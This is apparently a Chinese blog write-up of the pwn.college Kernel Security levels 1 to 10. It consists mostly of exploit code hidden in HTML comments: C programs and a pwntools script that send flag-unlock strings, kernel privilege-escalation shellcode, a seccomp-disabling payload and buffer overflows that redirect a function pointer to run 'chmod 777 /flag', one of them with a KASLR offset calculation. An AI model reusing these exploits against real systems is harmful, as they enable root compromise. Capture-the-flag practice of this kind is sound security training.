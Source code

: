 ```yaml
---
title: pwn.college Kernel Security
date: 2024-07-15 15:44:34
tags: [pwn.college, Linux Kernel]
categories: 
    - pwn.college
    - Linux Kernel Security
---
```



# 前言
- 根据要求只贴前两个的WriteUp，后续只写思路
- 每个题的驱动都是跑在qemu虚拟机的，开启题目后需要`vm connect`连上qemu，此时`lsmod`就可以看见安装好的驱动

# level1.0
```Shell
echo pwvrvqitxoodqbxa > /proc/pwncollege | head /proc/pwncollege
```

# level1.1
```Shell
echo ufyqfbjmxahuzqzi > /proc/pwncollege | head /proc/pwncollege
```

# level2.0
```Shell
echo clxyrfcckjpuexis > /proc/pwncollege | dmesg
```

# level2.1
```Shell
echo ccvqignnvespgtyp > /proc/pwncollege | dmesg
```

# level3.0
write写"xpmylzhkfevejscw"

<!-- echo xpmylzhkfevejscw > /proc/pwncollege | cat /flag -->


# level3.1
同 level3.0

<!--
echo gwcifabytyzfdpjo > /proc/pwncollege | cat /flag
-->

# level4.0
ioctl传递"emrbpgldsrexybrh"
<!-- 
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"emrbpgldsrexybrh");
    system("/bin/sh");
    return 0;
}
-->

# level4.1
同 level4.0
<!-- 
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"gixhsazzowbivqrw");
    system("/bin/sh");
    return 0;
}
-->

# level5.0
ioctl传递后门函数的地址即可
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc00004cd;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->

# level5.1
同 level5.0
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  long win = 0xffffffffc0000752;
  int fd = open("/proc/pwncollege", O_WRONLY);
  ioctl(fd, 1337, win);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->

# level6.0
直接传shellcode过去，它会自己执行
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->

# level6.1
同 level6.0

<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  int fd = open("/proc/pwncollege", O_WRONLY);
  write(fd,shellcode,sizeof(shellcode));
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->


# level7.0
需要传一个结构体，字段如下：
```C
struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};
```
传入的shellcode会被复制到内核开辟的一段可执行地址内，该地址固定，将call_addr设置为该地址就可以跳过去执行shellcode
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->

# level7.1
同 level7.0
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

struct buf{
  long size;
  char shellcode[4096];
  long call_addr;
};

int main() {
  char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3";
  // char shellcode[] = "H\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xe0\x95\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\xc0\x92\x08\x81\xff\xd0\xc3";
  struct buf A;
  int fd = open("/proc/pwncollege", O_WRONLY);
  A.size=4096;
  memcpy(A.shellcode,shellcode,sizeof(shellcode));
  // A.call_addr=0xffffc90000045000;//local
  A.call_addr=0xffffc90000085000;//remote
  ioctl(fd, 1337, &A);
  system("id");
  system("cat /flag");
  system("/bin/sh");
  return 0;
}
-->


# level8.0
这个卡了两天0.0，需要注意下面几个点：
- /proc/challenge只有root用户才有RW权限
- /challenge下除了babykernel_level8.1.ko还有带SUID的ELF程序babykernel_level8.1
- babykernel_level8.1可以执行任意shellcode，但是seccomp禁用了除了write外的所有系统调用；babykernel_level8.1.ko的write可以接收用户空间的shellcode以执行
- 因为babykernel_level8.1有SUID所以可以读写/proc/challenge
- 思路就是通过babykernel_level8.1向/proc/challenge写入shellcode在内核空间中关闭seccomp，然后在用户空间ORW读取flag
- 注意通过current_task_struct->thread_info.flags关闭seccomp只能作用于该进程，通过system('/bin/sh')获取的shell是子进程，seccomp仍然生效

<!-- 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()
-->

# level8.1
同 level8.0
<!-- 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babykernel_level8.1')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)
rdi=0x0000000000402273
sc=b'j\x03_j-Z\xbe\xa0p31j\x01X\x0f\x05H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f\x01\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x04_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20\x0f\x05j\x01_jPZ\xbe\x01\x01\x01\x01\x81\xf6\x01s20j\x01X\x0f\x05'
sc=sc.ljust(0xa0,b'\x90')
sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xff\xc3\x00'
# sc+=b'eH\x8b\x1c%\x00]\x01\x00H\x81#\xff\xfe\xff\xffH\xc7\xc7\x00\x00\x00\x00H\xc7\xc0\xd0\x90\x08\x81\xff\xd0H\x89\xc7H\xc7\xc0\x90\x8d\x08\x81\xff\xd0\xc3\x00'

io.sendline(sc)
# io.sendline("cat /flag")
io.interactive()
-->

# level9.0

可以控制第一个参数call任意函数，run_cmd("chmod 777 /flag")
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>

int main() {
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x80\x95\x08\x81\xff\xff\xff\xff";
  write(fd,payload,264);
  return 0;
}
-->
# level9.1

同 level9.0


# level10.0
和level9一样，但是开启了KASLR，泄露printk地址后计算run_cmd偏移再通过溢出修改printk指针为run_cmd
<!-- 
#include <stdio.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>

void int64_to_bytes(int64_t num, uint8_t *bytes, int byte_count) {
    for (int i = 0; i < byte_count; i++) {
        bytes[i] = (num >> (8 * i)) & 0xFF;
    }
}


int main() {
  long printk_addr,run_cmd_addr;
  printk_addr=0xffffffffaf8b6309;
  run_cmd_addr=printk_addr-0x2CD89;
  uint8_t bytes[8];
  int64_to_bytes(run_cmd_addr,bytes,8);
  int fd = open("/proc/pwncollege", O_WRONLY);
  char payload[]="/bin/chmod 777 /flag ;;;;;;;;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
  memcpy(payload+256,bytes,8);
  write(fd,payload,264);
  return 0;
}
 -->

# level10.1
同 level10.0

# level11.0

# level11.1
